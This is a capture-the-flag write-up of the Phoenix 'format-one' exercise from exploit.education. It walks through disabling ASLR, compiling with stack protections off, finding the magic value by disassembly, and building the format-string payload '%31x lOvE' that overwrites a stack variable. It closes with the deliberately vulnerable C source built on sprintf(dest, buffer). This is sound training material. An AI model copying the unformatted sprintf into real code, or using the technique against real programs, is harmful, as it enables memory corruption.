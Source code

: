 # Phoenix format-one
https://exploit.education/phoenix/format-one/
### Result
`Well done, the 'changeme' variable has been changed correctly!`
### Setup
Same as `format-one` but I wanted `ASLR off`. I tried to run the container with additional privileges:

```
docker run -idt --name ctf --privileged --security-opt seccomp:unconfined duckll/ctf-box
docker container exec -it ctf bash
```
But a better idea may have been just to run `sudo sysctl -w kernel.randomize_va_space=0` on the host machine.

### Compile code
This is another `sprintf` challenge. Almost identical to the last but you have to modify the payload.

```
gcc -g -fno-stack-protector -z execstack -no-pie -o format_zero format_zero.c

format_one.c:34:24: warning: format not a string literal and no format arguments [-Wformat-security]
   sprintf(locals.dest, buffer);
```
### Reversing
##### No payload
```
# ./format_one
Welcome to format_one brought to you by https://exploit.education
AAAA
Uh oh, 'changeme' is not the magic value, it is 0x00000000
```
Finding the magic value:
```
# objdump -d format_one | grep cmp
  4005e6:	48 3d 58 10 60 00    	cmp    $0x601058,%rax
  400650:	80 3d 11 0a 20 00 00 	cmpb   $0x0,0x200a11(%rip)        # 601068 <completed.7697>
  4006fb:	3d 6c 4f 76 45       	cmp    $0x45764f6c,%eax
  400781:	48 39 dd             	cmp    %rbx,%rbp
```
That wasn't great as it included non-main code. What about:
```
# gdb -batch -ex 'file format_one' -ex 'disassemble main' | grep -i cmp
0x00000000004006fb <+116>:	cmp    eax,0x45764f6c
```
Checking how to construct the bytes:
```
# rabin2 -I format_one
arch     x86
baddr    0x400000
binsz    9152
bintype  elf
bits     64
canary   false
endian   little     <- endian order
```
The final payload must include: `"\x6c\x4f\x76\x45"`.
### Payloads
##### good payload from format_zero
```
gef➤  r
Starting program: /root/format_one
Welcome to format_one brought to you by https://exploit.education
%p %p %p %p
Uh oh, 'changeme' is not the magic value, it is 0x36783020
```
##### Create payload
`gef➤  shell echo "%p%p\x41\x41\x41\x41\x41\x41" > payload.txt`
##### Run payload
```
gef➤  r < payload.txt
Uh oh, 'changeme' is not the magic value, it is 0x3134785c
```


gef➤  set $stack_size = $rbp - $rsp
gef➤  p/d $stack_size
$1 = 80

##### Create test payload
`# python -c 'print "%31x " + "\x41\x41\x41\x41"' > payload.txt`


##### Better way to find the local variables - look at the disassembly of main()
```
0x00000000004006e0 <+89>:	lea    rdx,[rbp-0x40]
0x00000000004006e4 <+93>:	lea    rax,[rbp-0x30]
```
##### Size of user input - 16 bytes
```
gef➤  p/d 0x40 - 0x30
$4 = 16
```
##### The user inputted buffer - size 16 bytes
```
gef➤  x/4wx $rbp-0x40
0x7fffffffe520:	0x78313325	0x41414120	0x00000a41	0x00000000

gef➤  x/s $rbp-0x40
0x7fffffffe520:	"%31x AAAA\n"
```
##### The destination buffer - size 32 bytes
```
gef➤  x/s $rbp-0x30
0x7fffffffe530:	< full of junk >
````

##### Watch memory
Once `sprintf` run, you observe the destination buffer fill.
```
gef➤  memory watch $rbp-0x30 8 qword
gef➤  n
──────────────────────────────────────────────────────────────── memory:0x7fffffffe530 ────
0x00007fffffffe530│+0x0000   0x2020202020202020   
0x00007fffffffe538│+0x0008   0x2020202020202020   
0x00007fffffffe540│+0x0010   0x6620202020202020   
0x00007fffffffe548│+0x0018   0x2030323565666666   
0x00007fffffffe550│+0x0020   0x0000000a41414141   
0x00007fffffffe558│+0x0028   0x0000000000000000   
0x00007fffffffe560│+0x0030   0x0000000000400730   
0x00007fffffffe568│+0x0038   0x00007ffff7a05b97   

```

### Result
##### Create final payload
You fill the `destination buffer` using the `format arguments`. Then you `little endian` the byte order.

The final payload is `"%31x lOvE"`.

`# python -c 'print "%31x " + "\x6c\x4f\x76\x45"' > payload.txt`



### Source code
```
 /*
 * Can you change the "changeme" variable?
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to format_one brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```
